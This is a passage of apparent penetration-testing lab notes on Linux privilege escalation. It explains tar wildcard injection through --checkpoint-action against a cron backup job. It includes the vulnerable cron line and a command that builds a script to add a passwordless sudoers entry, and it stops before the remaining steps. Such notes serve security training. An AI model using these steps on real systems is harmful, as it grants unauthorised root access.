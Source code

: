 Output:

```
PATH ABUSE!!
```

---

# Wildcard Abuse

**Wildcards** are special characters interpreted by the shell to match filenames or patterns before executing commands.

## Common Wildcards

| Character | Meaning |
|-----------|---------|
| `*`       | Matches any number of characters in a filename |
| `?`       | Matches a single character |
| `[ ]`     | Matches any single character inside the brackets |
| `~`       | Expands to the home directory of the current user or another user (e.g., `~user`) |
| `-`       | Inside `[ ]` denotes a range of characters |


## Privilege Escalation via Wildcards

Some commands (e.g., **tar**) interpret filenames starting with `--` as **options**.  
If a wildcard (`*`) is used in a command, **maliciously named files** can be executed as options.

### Example: `tar` Abuse with `--checkpoint-action`

From `man tar`:
- `--checkpoint[=N]` → Show progress every N records (default 10)
- `--checkpoint-action=ACTION` → Execute ACTION when a checkpoint is reached

### Scenario

**Vulnerable cron job** runs every minute:
```bash
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```
* The `*` wildcard includes **all files** in the directory as arguments.
* By creating specially named files, we can pass extra options to `tar`.

### Exploit Steps

1. Create a malicious script (`root.sh`) to gain privileges:

```bash
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
```

